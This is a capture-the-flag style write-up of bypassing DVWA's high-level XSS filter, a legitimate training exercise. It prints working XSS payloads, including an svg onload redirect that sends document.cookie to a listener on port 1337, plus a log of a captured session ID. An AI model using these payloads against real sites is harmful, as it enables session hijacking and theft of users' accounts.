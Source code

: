 # Cross-site Scripting (XSS) (High Level)

## Vulnerability Overview

At the high-security level, DVWA attempts to prevent Cross-Site Scripting (XSS) by applying a basic filter using `preg_replace()`. This filter is designed to remove any part of the input that matches the word `script`, targeting typical `<script>` tags.

### Weakness of the Filtering Method
- The filtering is case-insensitive but only looks for the word `script`.
- It does not sanitize other forms of JavaScript injection.
- The application reflects modified input directly into the page without proper encoding.
- The HTTP header disables the browser's built-in XSS protection (`X-XSS-Protection: 0`).

### Summary
Even though DVWA attempts to block script-based XSS with regex filtering, the protection is ineffective due to poor sanitization and output encoding. This makes the application highly vulnerable to modern XSS attacks.

---

# Exploitation

## 1. Triggering JavaScript Execution via XSS

**Payload Used:**
```html
<img src=x onerror="alert('You have been hacked')">
```

This payload uses an `<img>` tag with an invalid `src` attribute, causing a loading error and triggering the `onerror` event. The event executes JavaScript that displays an alert message "You have been hacked".

The payload was reflected in the HTML source code, confirming that arbitrary script execution was possible.

---

## 2. Capturing the Victim’s Session Cookie

**Payload Used:**
```html
<img src/onerror=alert(document.cookie)>
```

This payload demonstrates how an attacker could use XSS to steal a user's session cookie.
- When a victim accesses a URL with this payload, an alert pops up displaying the session cookie.
- In a real-world attack, this method could be combined with phishing to hijack user sessions.

---

## 3. Exfiltrating Cookies to an Attacker-Controlled Server

**Payload Used:**
```html
<svg onload="window.location='http://127.0.0.1:1337/?cookie='+document.cookie">
```

This advanced payload exfiltrates the session cookie to an external server.

### Steps Taken:
1. A local HTTP server was started on port 1337 using the following command:
```bash
python -m http.server 1337
```
2. When the payload executed in the victim's browser, it redirected to the attacker's server with the cookie attached as a query string.

### Result:
- Successfully captured the victim's session ID and cookie data.
- Example server log output:
```text
127.0.0.1 - - [25/Mar/2025 14:58:05] "GET /?cookie=security=high;%20PHPSESSID=p7l63b0bklhsret7raqdjfgpcv HTTP/1.1" 200 -
127.0.0.1 - - [25/Mar/2025 14:58:05] "GET /favicon.ico HTTP/1.1" 404 -
```
- This confirms that the attacker's server received the session cookie, enabling potential session hijacking.

---

# ✅ Done!

This concludes the Cross-site Scripting (XSS) exploitation on DVWA at high security level.
